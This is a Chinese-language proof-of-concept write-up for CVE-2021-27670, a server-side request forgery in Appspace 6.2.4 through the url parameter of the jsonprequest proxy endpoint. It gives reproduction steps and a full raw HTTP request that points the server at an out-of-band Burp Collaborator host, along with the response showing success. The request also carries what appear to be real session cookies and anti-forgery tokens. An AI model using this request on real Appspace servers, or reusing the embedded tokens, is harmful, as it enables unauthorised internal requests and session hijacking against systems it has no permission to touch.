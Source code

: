 # Appspace 6.2.4 SSRF (CVE-2021-27670)

Appspace 6.2.4允许通过 api/v1/core/proxy/jsonprequest url参数进行SSRF。

**复现步骤：**

* 1.访问subdomain.target.com/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=payload
* 2.将Url = 的值更改为服务器地址
* 3.转发请求并检查日志和响应
* 4.得到响应

**Demo：**


```bash
GET /api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://kui5ntipd353w4eekwtxhc5af1lu9oxel58ywn.burpcollaborator.net? HTTP/1.1
Host: redacted.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0 
Accept: / 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: text/plain 
RemoveHeader-Transfer-Encoding: true 
ExtraHeader-Access-Control-Expose-Headers: Removed-X-Frame-Options 
RemoveHeader-X-Frame-Options: true 
X-Requested-With: XMLHttpRequest 
Connection: close 
Referer: https://redacted.com/library/virtual/library/workspaces/dcdc8c58-f282-4d79-b519-bf093273ff58/index.html?editing=true&display_mode=tv 
Cookie: _gcl_au=1.1.605860964.1611041064; _ga=GA1.2.237028277.1611041073; _fbp=fb.1.1613375264845.130352864; ASP.NET_SessionId=hrm4kw45gl2ikz55rylyxm45; __AntiXsrfToken=e3a9153874de4f03800ea59f647b5bec; appspace-core-token=c2bd442f-8a97-46fe-8341-e27b30e6a146; ticket=c2bd442f-8a97-46fe-8341-e27b30e6a146; logincookie=AFDF47507F483F7944E5B6D99246310F6CA4300B6BC43EF47B8A73C52AAF2165BC3D79B0C573DA1189B586F86DDEEA19CD820DA2E0EB269812587CDFF3A08CF74907E6D1C370490A37DC8DEF89ADE6117A1806F6A6D83609AA5A47A9A02766CFE33193726211736D5B07B056CE53B9EADC7723CDFE99A9F1AD499CB399B5F1B88A58822B1BC4BE537C704E8F89F9496FA7972266AA00328F524443BC95D29D0B902BF81AAF3AA748FEBA342A2402EDB35A05038AEC3948C60C34B4B99A52F76E0E16F2A43F33295F6FCF83C107453CCC2D762EAB; __RequestVerificationToken_L2xpYnJhcnk1=sVXhPQSiCj559qE00AolIlSK2peRu_X1qWB8rKI-XpShQ1ewAynE98K06L4jIGvklTAFiSYWXBw16C9w8XwLnME2ITpVvnD66BYjVBUm5ys1

Response: 

HTTP/1.1 200 OK 
Cache-Control: no-cache, no-store 
Content-Type: text/html 
Vary: Accept-Encoding 
X-Collaborator-Version: 4 
Access-Control-Expose-Headers: Removed-X-Frame-Options 
Access-Control-Allow-Origin: * 
Access-Control-Request-Methods: GET, POST, PUT, DELETE, OPTIONS 
Access-Control-Allow-Headers: authorization,origin,x-my-header,host,accept,content-type,cache-control 
Access-Control-Allow-Origin: * Date: Wed, 24 Feb 2021 06:19:52 GMT 
Connection: close 
Content-Length: 61

dlgnon6ksjta2ya1tg7gq2zjlgmgigjflgz
```

**ref:**

* https://nvd.nist.gov/vuln/detail/CVE-2021-27670
* https://github.com/h3110mb/PoCSSrfApp
* https://forum.ywhack.com/thread-115171-1-3.html
